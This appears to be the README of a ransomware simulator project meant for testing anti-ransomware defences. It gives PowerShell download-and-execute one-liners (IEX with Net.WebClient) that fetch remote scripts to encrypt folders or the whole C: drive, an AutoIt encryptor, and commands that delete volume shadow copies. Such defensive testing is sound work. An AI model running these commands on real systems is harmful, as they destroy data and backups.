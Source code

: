 # RansomSimulator

Fileless ransomware simulator - to evaluate your anti-ransomware mitigation technology

**Example:**

Encryption - 

`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-RansomSIM.ps1"); Invoke-RansomSIM -Mode Encrypt -Path 'C:\Users\tester\Documents\Test';`

You may use shortlinks as well, example: 

PS> IEX (New-Object Net.WebClient).DownloadString("https://lnkd.in/gzTmAiKu"); Invoke-RansomSIM -Mode Encrypt -Path 'C:\';

Decryption - 

PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-RansomSIM.ps1"); Invoke-RansomSIM -Mode Decrypt -Path 'C:\Users\tester\Documents\Test';

# AutoIt
An autoIt script - you may compile it to an executable using Aut2Exe, or execute it using the interpreter (encrypts only .doc files)

**Example:**

Encryption - 

RansomSIM.exe /encrypt C:\
  
Decryption - 

RansomSIM.exe /decrypt C:\

# Simulator for shadow copy manipulation
an aggregation of technique as implemented by ransomware groups to delete shadow copies, usually is performed before the ransomware encryption

Example ('All','VssDeleteAll', 'WmiDeleteAll', 'VssResize', 'DeleteEach', 'CimDelete', 'NativeDelete'):

PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-ShadowDeleteSIM.ps1"); Invoke-ShadowDeleteSIM -Mode All -Volume 'C:\\'

PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-ShadowDeleteSIM.ps1"); Invoke-ShadowDeleteSIM -Mode VssDeleteAll -Volume 'C:\\'

